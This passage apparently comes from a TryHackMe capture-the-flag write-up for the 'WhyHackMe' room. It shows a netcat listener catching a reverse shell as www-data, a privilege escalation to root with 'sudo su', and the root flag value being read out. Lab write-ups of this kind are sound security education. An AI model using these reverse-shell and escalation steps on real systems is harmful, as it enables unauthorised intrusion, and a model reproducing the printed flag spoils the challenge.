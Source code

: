 Opening the URL we get the root shell, let's cat the root flag, we can easily privesc executing the `sudo su` command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Medium/WhyHackMe]
└─$ nc -lvnp 1337              
listening on [any] 1337 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.100.207] 49948
whoami
www-data
sudo su
whoami
root
cat /root/root.txt
4dbe2259ae53846441cc2479b5475c72

```

Pwned !!
